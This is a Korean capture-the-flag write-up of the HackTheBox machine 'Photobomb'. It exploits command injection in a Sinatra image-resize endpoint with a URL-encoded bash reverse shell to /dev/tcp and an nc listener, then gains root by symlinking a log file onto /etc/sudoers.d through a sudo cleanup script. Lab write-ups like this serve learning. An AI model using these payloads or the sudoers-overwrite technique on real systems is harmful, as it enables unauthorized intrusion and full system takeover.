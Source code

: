 
# Table of Contents

1.  [취약점 탐색](#search)
2.  [취약점 공격 및 쉘 획득](#attack)
3.  [권한 상승](#escal)

\#-**- mode: org -**-

본 포스트는 HackTheBox의 Photobomb machine을 해결하고 작성한 writeup이다. 문제를 푸는 과정에서는 여러 방법이 있을 수 있다. 따라서 본 포스트에서 설명하는 풀이는 유일한 정답이 아니다.


<a id="search"></a>

# 취약점 탐색

- 주어진 IP로 접속하면 다음과 같은 홈페이지를 확인할 수 있다.
  

- 이미지 다운로드 페이지로 접속하려면 다음과 같이 credential이 필요하다.
   
   
- credential은 다음과 같이 photobomb.js 에서 확인할 수 있다.
   
  
- 이미지 다운로드 페이지에서는 다운로드 받을 이미지와 해상도를 선택하여 다운받을 수 있다.

- 이미지 다운로드 버튼을 클릭하면 아래의 파라미터들이 POST 메소드를 통해 전달된다.
  
~~~
        photo=wolfgang-hasselmann-RLEgmd1O7gs-unsplash.jpg&filetype=jpg&dimensions=30x20
        
~~~
  
  
- 여기서 각각의 파라미터들을 배열 형태로 넘기거나 null값을 넘기면 에러가 발생하는데 에러 페이지에서는 이미지 처리 관련 ruby코드의 일부분을 출력한다. (추가적으로 sinatra라는 패키지를 사용하는 것을 알 수 있다.

- 에러를 지속적으로 발생시켜서 출력되는 코드의 일부분들을 조합하여 정리하면 이미지 resize 및 다운로드와 관련된 코드들을 어떻게 동작하는지 확인이 가능하다.

~~~rb
post '/printer' do
  photo = params[:photo]
  filetype = params[:filetype]
  dimensions = params[:dimensions]

  # handle inputs
  if photo.match(/\.{2}|\//)
    halt 500, 'Invalid photo.'
  end

  if !FileTest.exist?( "source_images/" + photo )
    halt 500, 'Source photo does not exist.'
  end

  if !filetype.match(/^(png|jpg)/)
    halt 500, 'Invalid filetype.'
  end

  if !dimensions.match(/^[0-9]+x[0-9]+$/)
    halt 500, 'Invalid dimensions.'
  end

  case filetype
  when 'png'
    content_type 'image/png'
  when 'jpg'
    content_type 'image/jpeg'
  end

  filename = photo.sub('.jpg', '') + '_' + dimensions + '.' + filetype
  response['Content-Disposition'] = "attachment; filename=#{filename}"

  if !File.exists?('resized_images/' + filename)
    command = 'convert source_images/' + photo + ' -resize ' + dimensions + ' resized_images/' + filename
    puts "Executing: #{command}"
    system(command)
  else
    puts "File already exists."
  end
~~~

- 상기한 코드를 확인하면 filename은 이미지 원본의 이름, 해상도, 파일 확장자로 구성되고

~~~rb
filename = photo.sub('.jpg', '') + '_' + dimensions + '.' + filetype
~~~

- 이 filename은 command의 맨 마지막에 붙는다.

~~~rb
command = 'convert source_images/' + photo + ' -resize ' + dimensions + ' resized_images/' + filename
    puts "Executing: #{command}"
    system(command)
~~~

- 따라서 command의 맨 마지막에 붙는 부분은 filetype 변수이다.

~~~rb
command = 'convert source_images/' + photo + ' -resize ' + dimensions + ' resized_images/' + photo.sub('.jpg', '') + '_' + dimensions + '.' + filetype
~~~

- 결과적으로 command의 마지막 부분에 &&등을 붙이고 뒤에 리버스 쉘을 실행하는 명령어 (bash -c 'bash -i >& /dev/tcp/ip/port 0>&1')를 붙이면 될 것으로 예상했다.



<a id="attack"></a>

# 취약점 공격 및 쉘 획득

- 우선 netcat 명령어를 로컬 PC의 터미널에서 실행하고

~~~shell
[hackryptic@Hackryptic-PC-1 ~]$ nc -lvnp port
~~~

- filetype 파라미터에 명령어 부분을 직접 넣으면

~~~
photo=wolfgang-hasselmann-RLEgmd1O7gs-unsplash.jpg&filetype=%26%26bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2Fip%2Fport%200%3E%261%27&dimensions=30x20
~~~

- Invalid Filetype. 이라는 에러가 발생한다.

- 이 에러는 다음과 같은 filetype을 체크하는 정규표현식 부분을 통과하지 못해서 발생하는데

~~~rb
if !filetype.match(/^(png|jpg)/)
    halt 500, 'Invalid filetype.'
  end
~~~

- 문자열의 시작 부분에 png나 jpg가 존재하는가에 대해서만 체크하기 때문에 이 조건만 만족시켜서 다시 파라미터 값을 작성하면 (앞쪽에 jpg나 png만 붙이고 동일하게 작성하면 된다.)

~~~
hoto=wolfgang-hasselmann-RLEgmd1O7gs-unsplash.jpg&filetype=jpg%26%26bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2Fip%2Fport%200%3E%261%27&dimensions=30x20
~~~

- 확장자 뒤쪽에 쉘 실행 명령어를 붙이면 다음과 같이 접속에 성공한다.

~~~shell
bash: cannot set terminal process group (722): Inappropriate ioctl for device
bash: no job control in this shell
wizard@photobomb:~/photobomb$ 
~~~



<a id="escal"></a>

# 권한 상승

- 우선, sudo -l을 통해 sudo 권한이 걸린 명령어를 확인해보면 다음과 같은 결과가 출력된다.

~~~shell
wizard@photobomb:~/photobomb$ sudo -l

Matching Defaults entries for wizard on photobomb:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User wizard may run the following commands on photobomb:
    (root) SETENV: NOPASSWD: /opt/cleanup.sh
~~~

- cleanup.sh 파일의 내용은 다음과 같다.

~~~shell
#!/bin/bash
. /opt/.bashrc
cd /home/wizard/photobomb



# clean up log files
if [ -s log/photobomb.log ] && ! [ -L log/photobomb.log ]
then
  /bin/cat log/photobomb.log > log/photobomb.log.old
  /usr/bin/truncate -s0 log/photobomb.log
fi

# protect the priceless originals
find source_images -type f -name '*.jpg' -exec chown root:root {} \;
~~~


- cleanup.sh는 photobomb.log에 로깅된 내용이 있으면 photobomb.log.old 파일에 덮어쓰고 photobomb.log는 0 bytes로 trunate한다.

- 그리고 root 유저 권한으로 이 작업들을 실행하므로 덮어쓰고자 하는 파일(photobomb.log.old)에 부여된 파일 권한과 상관없이 이 작업을 수행할 수 있다. (어떤 파일이든 덮어쓸 수 있다.)

- 따라서 sudoers 파일을 조작하기 위해 다음과 같이 심볼릭 링크를 걸어준다. (파일이 이미 존재하면 photobomb.log.old 파일을 삭제한 뒤에 링크를 건다.)

~~~shell
wizard@photobomb:~/photobomb$ ln -s /etc/sudoers.d/photobomb ~/photobomb/log/photobomb.log.old
~~~

- 아래와 같이 심볼릭 링크가 제대로 되었는지 확인한 후에

~~~shell
lrwxrwxrwx 1 wizard wizard 24 Nov  8 02:22 /home/wizard/photobomb/log/photobomb.log.old -> /etc/sudoers.d/photobomb
~~~

- sudo 권한을 부여하기 위한 내용을 photobomb.log 파일에 작성하고

~~~shell
wizard@photobomb:~/photobomb$ echo "wizard ALL=(ALL) NOPASSWD: ALL" > ~/photobomb/log/photobomb.log
~~~

- 마지막으로/opt/cleanup.sh를 실행하면

~~~shell
wizard@photobomb:~/photobomb$ sudo /opt/cleanup.sh
~~~

- 다음과 같이 root 권한으로 상승할 수 있다.

~~~shell
wizard@photobomb:~/photobomb$ sudo su
root@photobomb:/home/wizard/photobomb#
~~~
